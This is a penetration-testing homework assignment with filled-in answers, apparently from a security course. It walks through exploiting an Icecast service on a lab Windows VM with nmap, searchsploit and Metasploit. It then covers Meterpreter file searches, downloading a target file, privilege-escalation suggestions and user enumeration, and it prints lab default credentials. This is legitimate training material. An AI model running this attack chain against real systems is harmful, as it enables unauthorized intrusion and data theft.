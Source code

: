 ## Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `secretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup 

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
 
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 

- https://github.com/jamesdewhirst/Examples/blob/main/Homework/17-2-GoodSecurity_Penetration_Test_Report.md
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: `nmap -sV 192.168.0.20`
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: `searchsploit icecast`

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: `msfconsole`
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer:`search icecast`
 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: `use 0`
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: `set RHOST 192.168.0.20`
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: `run`
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: `search -f *secretfile*.txt`
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: `search -f *recipe*.txt`
 
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:

      > Answer: `download 'c:\Users\IEuser\Documents\Drinks.recipe.txt'`
      > 
      > Answer: `Drinks.recipe.txt = Put the lime in the coconut and drink it all up!`
 

8. You can also use Meterpreter's local exploit suggester to find possible exploits.

    - Run the following command:
      > Answer: `run post/multi/recon/local_exploit_suggester`

   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: `run post/windows/gather/enum_logged_on_users`
 
     
B. Open a Meterpreter shell and gather system information for the target.
 
  > Answer: `shell`
 
C. Run the command that displays the target's computer system information:

   > Answer: `systeminfo`
